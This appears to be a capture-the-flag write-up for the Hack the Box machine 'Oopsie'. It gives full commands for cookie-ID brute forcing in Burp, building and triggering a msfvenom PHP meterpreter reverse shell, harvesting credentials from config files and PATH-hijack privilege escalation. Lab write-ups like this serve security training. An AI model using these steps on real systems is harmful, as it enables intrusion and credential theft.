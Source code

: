 +++
title = "Hack the Box: Oopsie"
date = 2023-01-15
description = "Hack the Box: Oopsie"
tags = [
    "Hack the Box",
    "Write-up"
]
+++

# Oopsie

## Enumeration

### Nmap

```
# nmap -p- -T4 -A 10.10.10.28
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-24 10:05 CEST
Nmap scan report for 10.10.10.28
Host is up (0.028s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=4/24%OT=22%CT=1%CU=37344%PV=Y%DS=2%DC=T%G=Y%TM=5EA29DE
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   43.43 ms 10.10.14.1
2   43.48 ms 10.10.10.28

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 60.15 seconds
```

### Burp and connection to the admin panel:

We can see /cdn/login from the target -> Site map burp function we can try to login with `MEGACORP_4dm1n!!` password from the last machine compromised.

We can also see that our admin id is 1 and the cookie is “custom made” we can try to brute force the id in order to find the super admin one and get access to the upload page. hit CTRL + i, set the position on the `1` and generate with bash ``for i in `seq 1 100`; do echo $i; done`` a sequence of numbers. Add them to the payload and check `Follow redirections: Always` and `process cookies in redirections`. One request is bigger than the other and while examining it we can get the super admin id `86575`.

Now using burp we can access to the upload page.

## Foothold

### Reverse shell

Let’s build a reverse shell with msfvenom first:

```
# msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=6000 -f raw -o shell.php
```

Upload it using the /upload/ page and burp (you need to modify the user id to achieve it). We have no idea where the file has be dropped so let’s enumerate directories using dirsearch from github:

```
# python3 dirsearch.py -u http://10.10.10.28 -e php
```

We guess the reverse shell is in the /upload/. We need to set-up an handler to get our meterpreter working:

```
# msf5 exploit(multi/handler) > use exploit/multi/handler
# msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
# msf5 exploit(multi/handler) > set LHOTS tun0
# msf5 exploit(multi/handler) > set LPORT 6000
# msf5 exploit(multi/handler) > run
```

Trigger the reverse shell with:

```
# curl http://10.10.10.28/uploads/shell.php
```

This should pop a meterpreter. In the meterpreter run `shell`. You should be able to run the following:

```
# SHELL=/bin/bash script -q /dev/null
# stty raw -echo
# fg
# reset
# xterm
```

```
# id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

We can see the sticky bit setuid :

```
# find / -type f -group bugtracker 2>/dev/null
/usr/bin/bugtracker
# ls -al /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25 10:14 /usr/bin/bugtracker
```

### Lateral movement

We can get the user credentials from the db.php file:

```
# ls /var/www/html/cdn-cgi/login/
# cat /var/www/html/cdn-cgi/login/db.php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

We can now ssh using those credential and get the user flag in:

```
# cat /home/robert/user.txt
```

## Privilege escalation

```
# export PATH=/tmp:$PATH
# cd /tmp/
# echo '/bin/sh' > cat
# chmod +x cat
# /usr/bin/bugtracker
```

We can get ftpuser account and password in:

```
# strings /root/.config/filezilla/filezilla.xml
...
<User>ftpuser</User>
<Pass>mc@F1l3ZilL4</Pass>
...
```

```
# cat /root/root.txt
```